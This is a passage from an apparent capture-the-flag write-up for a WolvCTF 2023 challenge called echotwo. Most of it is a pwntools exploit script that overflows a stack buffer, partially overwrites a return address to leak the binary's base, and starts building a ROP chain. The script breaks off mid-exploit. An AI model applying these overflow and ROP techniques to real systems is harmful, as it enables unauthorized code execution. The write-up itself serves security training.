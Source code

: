 !["getting flag"](./images/flag.png "getting flag")

#### Full Exploit:
```py
from pwn import *

exe = ELF("./challenge")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe

#p = process("./challenge")
#gdb.attach(p)
p = remote("echotwo.wolvctf-2023.kctf.cloud", 1337)

offset = 279
sending = offset + 1

payload = b"A"*offset
payload += b"\x4c" # start of main func (after push rbp)

p.recvline()
p.sendline(str(sending + 1).encode())
p.sendline(payload)

p.recvuntil(b"A"*offset)
leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"{hex(leak)=}")

exe_base = leak - (exe.sym["main"] + 5)
puts_plt = exe_base + exe.plt["puts"]

main = exe_base + 0x1247
ret = exe_base + 0x101a

log.success(f"{hex(exe_base)=}")
log.info(f"{hex(puts_plt)=}")

print("===========================")

second_payload = b"B"*offset
second_payload += p64(ret)
second_payload += p64(puts_plt)
second_payload += p64(ret)
second_payload += p64(main)

p.recvuntil(b"Echo2")
```